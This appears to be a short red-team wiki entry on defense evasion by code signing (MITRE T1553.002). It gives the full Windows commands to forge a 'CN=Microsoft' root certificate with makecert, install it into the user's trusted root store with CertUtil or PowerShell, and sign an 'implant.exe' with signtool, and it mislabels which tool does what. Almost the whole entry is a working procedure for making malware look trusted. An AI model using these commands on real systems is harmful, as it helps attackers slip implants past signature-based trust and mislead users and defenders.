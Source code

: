 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - T1553-002
  - windows
---
```

# Sysinternals

Generate a authority certificate `CertUtil.exe`.

```
C:\> makecert.exe -r -pe -n "CN=Microsoft" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MicrosoftCA.pvk MicrosoftCA.cer
```

Then install the root certificate

```
C:\> CertUtil.exe -user -addstore Root MicrosoftCA.cer

PS C:\> Import-Certificate -FilePath MicrosoftCA.cer -CertStoreLocation Cert:\CurrentUser\Root\
```

```
C:\> makecert.exe -pe -n "CN=Microsoft Cert" -a sha256 -cy end -sky signature -ic MicrosoftCA.cer -iv MicrosoftCA.pvk -sv MicrosoftCert.pvk MicrosoftCert.cer

C:\> pvk2pfx.exe -pvk MicrosoftCert.pvk -spc MicrosoftCert.cer -pfx MicrosoftCert.pfx
```

Sign the binary implant with a certificate.

```
C:\> signtool.exe sign /v /f MicrosoftCert.pfx /t http://timestamp.digicert.com/?alg=sha1 implant.exe

C:\> signtool.exe sign /fd sha256 /a /tr http://timestamp.digicert.com <payload_name>
```

---
## References

### Github

- [LazySign](https://github.com/jfmaes/LazySign)